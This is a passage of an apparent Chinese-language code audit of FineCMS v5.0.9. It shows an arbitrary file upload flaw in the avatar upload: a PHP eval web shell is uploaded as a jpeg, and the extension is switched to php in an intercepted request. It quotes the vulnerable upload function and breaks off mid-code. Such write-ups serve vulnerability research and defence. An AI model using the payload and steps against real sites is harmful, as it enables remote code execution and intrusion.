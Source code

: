 ```yaml
---
title: FineCMS v5.0.9 代码审计
date: 2017-09-11 10:53:33
tags:
	- 代码审计
	- SQL注入
	- 命令执行
---
```


FineCMS v5.0.9 任意文件上传&代码执行&SQL语句执行漏洞

## 0x01 任意文件上传漏洞演示&剖析

概述： 在FineCMS v5.0.9版本中，会员中心中的上传头像模块存在任意文件上传漏洞

### 漏洞演示
首先注册一个用户，进入到会员中心，上传一个名为"mengchen.jpeg"的图片马，文件内容为

```php
<?php phpinfo(); @eval($_POST['mengchen']);?>
```

上传时使用burpsuite抓包

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-2.png)

将tx参数中的jpeg改为php,直接提交

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-3.png)

这样文件就传上去了，而且还能执行

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-4.png)

### 漏洞原理剖析

头像上传的函数在/finecms/dayrui/member/controllers/Account.php中的第177-214行

```php
public function upload() {

    // 创建图片存储文件夹
    $dir = SYS_UPLOAD_PATH.'/member/'.$this->uid.'/';
    @dr_dir_delete($dir);
    !is_dir($dir) && dr_mkdirs($dir);

    if ($_POST['tx']) {
        $file = str_replace(' ', '+', $_POST['tx']);//将空格替换为+号
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
            $new_file = $dir.'0x0.'.$result[2];
            if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                exit(dr_json(0, '目录权限不足或磁盘已满'));
            } else {
                $this->load->library('image_lib');
                $config['create_thumb'] = TRUE;
                $config['thumb_marker'] = '';
                $config['maintain_ratio'] = FALSE;
                $config['source_image'] = $new_file;
                foreach (array(30, 45, 90, 180) as $a) {
                    $config['width'] = $config['height'] = $a;
                    $config['new_image'] = $dir.$a.'x'.$a.'.'.$result[2];
                    $this->image_lib->initialize($config);
                    if (!$this->image_lib->resize()) {
```